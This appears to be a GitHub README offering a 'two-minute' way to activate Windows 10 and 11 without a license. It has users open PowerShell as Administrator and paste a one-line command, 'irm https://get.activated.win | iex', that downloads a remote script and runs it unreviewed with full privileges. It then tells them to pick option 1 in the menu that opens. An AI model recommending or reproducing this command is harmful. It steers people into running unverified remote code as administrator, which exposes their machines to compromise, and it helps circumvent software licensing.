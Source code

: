 # Window-Activation-Powershell-Command

Windows 10 &amp; 11 Activation: 2-minute Solution Using Powershell 

#
This repository contains a way that can activate Windows 10 and 11 in few seconds. The methodes is compatible with home, home N, Home single lang, Home country specific, professional, education and enterprise versions of Windows.

# Window PowerShell Command
> [!TIP]
> We have many ways to run powershell in windowss 10 & 11. [^1]

## Step 1 
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

![image](https://github.com/user-attachments/assets/9022d236-0b32-494d-b055-1b5cfc1c4dd9)

## Step 2
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.

![image](https://github.com/user-attachments/assets/d3901eb4-b130-4f18-b7a4-6d010fabe4fc)

## Step 3
Now, after a brief pause to allow for execution, please copy this line:

```CSS
irm https://get.activated.win | iex
```

## Step 4
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.



![image](https://github.com/user-attachments/assets/71aa0d37-d260-43c6-9f93-fdd33ffe93d6)
#


## Congratulations,
your Windows has been activated.  
now you can hit the enter key to exit the CMD and close PowerShell and check windows Activation menu [^3]


[^6]: To see windows activation status you must to go:  
***Settings → Update & Security → activation menu.***
